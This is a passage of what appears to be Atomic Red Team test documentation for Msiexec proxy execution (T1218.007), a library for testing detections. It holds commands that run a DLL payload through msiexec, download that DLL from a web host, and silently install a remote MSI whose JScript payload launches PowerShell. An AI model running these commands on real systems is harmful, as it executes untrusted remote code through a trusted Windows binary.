 
#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /z "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The DLL must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #11 - Msiexec.exe - Execute Remote MSI file
Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI executes a built-in JScript payload that launches powershell.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 44a4bedf-ffe3-452e-bee4-6925ab125662





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | string | https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /q /i "#{msi_payload}"
```






<br/>
